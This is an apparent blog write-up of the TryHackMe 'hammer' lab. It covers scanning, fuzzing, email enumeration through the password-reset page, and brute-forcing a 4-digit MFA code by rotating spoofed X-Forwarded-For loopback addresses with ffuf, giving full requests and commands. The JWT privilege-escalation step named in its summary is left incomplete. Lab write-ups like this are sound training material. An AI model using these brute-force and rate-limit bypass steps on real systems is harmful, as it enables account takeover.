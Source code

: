 ```yaml
---
layout: post
title:  "TryHackMe | hammer"
description: "Walkthrough of hammer machine, a Medium rated box from TryHackme"
date: "2024-12-14"
pin: true
image:
  path: ../assets/img/ctf/tryhackme/hammer/hammer1.png
  alt: "hammer.thm"
category: "TryHackMe"
tags: ["ThyHackMe", "Enumeration", "Rate Limit Bypass", "mfa bypass", "jwt"]
---
```

## Introduction
------------------------------------------------------------------------------------------
[hammer](https://tryhackme.com/r/room/hammer) is a medium rated linux box from tryhackme. The exploitation consist of abusing the reset password funtionality for email enumeration, next step involve brute forcing the mfa code giving access to reset the user password. From this gained user we can abuse the jwt to get admin access in the application allowing us to have full access to the command execution functionality.

------------------------------------------------------------------------------------------

## Enumeration
We start by a full scan to discover all tcp opened ports...
### All Open Ports
```bash
rustscan -a 10.10.179.102
```
![ports](../assets/img/ctf/tryhackme/hammer/hammer2.png)

### Services Scanning
```bash
nmap -p22,1337 -sC -sV -oN hammer.full 10.10.179.102
```
```text
# Nmap 7.94SVN scan initiated Wed Dec 11 08:14:28 2024 as: nmap -p22,1337 -sC -sV -v -oN hammer.full 10.10.179.102
Nmap scan report for hammer.thm (10.10.179.102)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0a:6d:ab:ce:54:aa:96:47:b4:6e:d8:56:38:a7:ae:b6 (RSA)
|   256 bd:2a:f1:09:dd:e1:d3:2a:5b:20:f1:52:4e:d5:39:5a (ECDSA)
|_  256 f0:ec:2f:c0:d6:35:68:0e:8e:53:b3:49:7c:a4:0e:fa (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/.../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 11 08:14:43 2024 -- 1 IP address (1 host up) scanned in 15.06 seconds
```
### Hostname
```bash
echo '10.10.179.102   hammer.thm' >> /etc/hosts
```

## FootHold
### Port 1337
![web app](../assets/img/ctf/tryhackme/hammer/hammer3.png)
```bash
ffuf -c -u http://hammer.thm:1337/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php , .txt
```
![dir bur](../assets/img/ctf/tryhackme/hammer/hammer4.png)
![php-jwt](../assets/img/ctf/tryhackme/hammer/hammer5.png)
php-jwt library is being used by the app, i heva looked for known issues with this library by nothing here...
![hmr](../assets/img/ctf/tryhackme/hammer/hammer6.png)
The dev note higlihts a naming convention (/hmr_DIRNAME) that can helps us better fuzz directories... 
```bash
ffuf -c -u http://hammer.thm:1337/hmr_FUZZ -w /usr/share/wordlists/dirb/common.txt 
```
![logs](../assets/img/ctf/tryhackme/hammer/hammer7.png)
![logs2](../assets/img/ctf/tryhackme/hammer/hammer8.png)
![logs3](../assets/img/ctf/tryhackme/hammer/hammer9.png)
user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
tester@hammer.thm
![logs3](../assets/img/ctf/tryhackme/hammer/hammer10.png)
![logs3](../assets/img/ctf/tryhackme/hammer/hammer11.png)
The "Invalid email address!" response we get here can be a chance for valid email enumeration!!!!
let's enter the previous email we found in the logs...
![logs3](../assets/img/ctf/tryhackme/hammer/hammer12.png)
by entering tester@hammer.thm email in the rest password page we got the reonse in the previous capture, meaning it's a valid email.
Something to not is that it's possible to find fuzz for valid emails, let's do that...
![logs3](../assets/img/ctf/tryhackme/hammer/hammer13.png)
![logs3](../assets/img/ctf/tryhackme/hammer/hammer14.png)
There is a rate limiting in place...but this is not going to discourage us right? of course...My first question what does the server track in order to tell how may attempts we have left? after multiple tests it seems like our unauthenticated session is the one being tracked...
![logs3](../assets/img/ctf/tryhackme/hammer/hammer15.png)
Once i remove the cookie header in request the "Rate-Limit-Pending" header in the response will always be 9...my guess is that the server has no way of telling us how many attempts we have left. so we an open door here to fuzz
```text
POST /reset_password.php HTTP/1.1
Host: hammer.thm:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://hammer.thm:1337/reset_password.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://hammer.thm:1337
Connection: keep-alive
Upgrade-Insecure-Requests: 1

email=FUZZ@hammer.thm
```
```bash
ffuf -c -request reset_pass.req -request-proto http -w usernames.txt -fs 1754
```
![logs3](../assets/img/ctf/tryhackme/hammer/hammer16.png)
We have got that email again...whatever method now that we have gotten a valid email we are good to go

- Brute force tha tester@hammer.thm password on the login page
- Attack the mfa and reset tester@hammer.thm password
![logs3](../assets/img/ctf/tryhackme/hammer/hammer17.png)
- There is ratelimiting
- There is time count down, meaning the user has s=175 seconds to submit the valid mfa code.
- If count down reaches 0 we get redirected to "Time elapsed" error page.

Unlike the previous situation, here we can't remove the session, if we do that we get redirection to the same "Time elapsed" error page.
![logs3](../assets/img/ctf/tryhackme/hammer/hammer18.png)
![logs3](../assets/img/ctf/tryhackme/hammer/hammer19.png)
If we can find a parameter in the request that can help use overcome the rate limiting we can have a chance to brute force the mfa code give 120s time frame...

After googling "Rate limit bypass" i found this...
![logs3](../assets/img/ctf/tryhackme/hammer/hammer20.png)
X-Forwarded-For: 127.0.0.5 worked here, when we change the IP we got another 10 requests. 10 requests by ip and we want to fuzz a 4 digit mfa code we will need up to 900 ip...

By abusing the loopback address range 127.0.0.0/8 it's possible
![logs3](../assets/img/ctf/tryhackme/hammer/hammer21.png)
![logs3](../assets/img/ctf/tryhackme/hammer/hammer22.png)
```bash
echo '0000' > w.txt
seq 1000 9999 >> w.txt
```
We need 1000 ips in the loopback range and a little bit of networking nknowlege bring us to 127.0.0.0/22 range.
2^10=1024 and 22=32-10
```bash
prips 127.0.0.0/22 > ip.txt
awk '{for(i=1; i<=9; i++) print $0}' ip.txt > wordlist.txt
```
Pitchfork Attack using ffuf...
- copy the PHPSESSID  and add it to mfa_brute.req
- Enter the email to start the process
- run pitchfork attack
![logs3](../assets/img/ctf/tryhackme/hammer/hammer23.png)

```text
POST /reset_password.php HTTP/1.1
Host: hammer.thm:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: FUZZIPS
Content-Length: 24
Origin: http://hammer.thm:1337
Connection: keep-alive
Referer: http://hammer.thm:1337/reset_password.php
Cookie: PHPSESSID=vf6ddidso59n9qahc89usq2vp9
Upgrade-Insecure-Requests: 1

recovery_code=FUZZCODE&s=120
```

![logs3](../assets/img/ctf/tryhackme/hammer/hammer24.png)

```bash
ffuf -c -mode pitchfork -request mfa_brute.req -request-proto http -w wordlist.txt:FUZZIPS -w w.txt:FUZZCODE -fs 2202
```
![logs3](../assets/img/ctf/tryhackme/hammer/hammer25.png)
The valid code is the first code that does not hit ouw response size filter...

Using that code we got a page to set a new password.
![logs3](../assets/img/ctf/tryhackme/hammer/hammer26.png)
After the setting a new password we can log in as tester@hammer.thm...
![logs3](../assets/img/ctf/tryhackme/hammer/hammer27.png)
![logs3](../assets/img/ctf/tryhackme/hammer/hammer28.png)
As we may guess there is some command filtering in place and we can't read the flag.txt file directly...
basic commands like cat, id ...my guess is that only the ls command is allowed.

## Privilege Escalation
```bash
curl http://hammer.thm:1337/188ade1.key
curl http://hammer.thm:1337/composer.json
```
![logs3](../assets/img/ctf/tryhackme/hammer/hammer28.png)



## Kill Chain Summary
1. Email Enumeration trough the reset functionality.
2. MFA code brute forcing to reset tester@hammer.thm password.
3. JWT attack to get admin acces in the application.

## References
[Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)<br>
[hacker recipes jwt attack](https://www.thehacker.recipes/web/inputs/jwt)<br>
[jwt auth bypass via kid header path traversal](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-kid-header-path-traversal)<br>